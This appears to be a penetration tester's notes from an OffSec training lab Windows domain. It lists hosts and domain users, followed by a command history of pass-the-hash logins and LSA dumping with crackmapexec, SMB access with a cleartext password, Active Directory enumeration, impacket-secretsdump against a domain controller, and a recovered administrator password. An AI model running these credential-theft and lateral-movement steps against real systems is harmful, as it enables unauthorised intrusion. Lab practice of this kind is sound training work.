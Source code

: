 ```
PROD01   Windows Server 2022 Standard
CLIENT02 Windows 11 Enterprise
WEB02    Windows Server 2022 Standard
```
## Domain Users
```
SamAccountName
--------------
Administrator
Guest
offsec
krbtgt
leon
joe
peach
mario
wario
yoshi
```
## Secrets Dump

# Command History
```c
    // from kali
    crackmapexec smb 172.16.213.10 -u joe -H 08d7a47a6f9f66b97b1bae4178747494 --shares
    crackmapexec smb 172.16.213.10 -u joe -H 08d7a47a6f9f66b97b1bae4178747494
    crackmapexec smb 172.16.213.10 -u joe -H 08d7a47a6f9f66b97b1bae4178747494 --lsa
    smbclient -U 'joe%Flowers1' //172.16.213.10/SYSVOL /C$ /ADMIN$
    //NT_STATUS_ACCESS_DENIED in most of C$
    // after winrm as leon
    Get-ADComputer -Filter * -Property Name,OperatingSystem | Select Name,OperatingSystem
    Get-ADUser -Filter * -Property DisplayName,SamAccountName | Select SamAccountName
    // from kali
    //secretsdump.py 'domain/leon@172.16.152.10'
    impacket-secretsdump 'medtech/leon@172.16.152.10'
    // see secretddumps.txt
    found -> C:\Users\Administrator> type Desktop/credentials.txt
    // offsec/century62hisan51
```
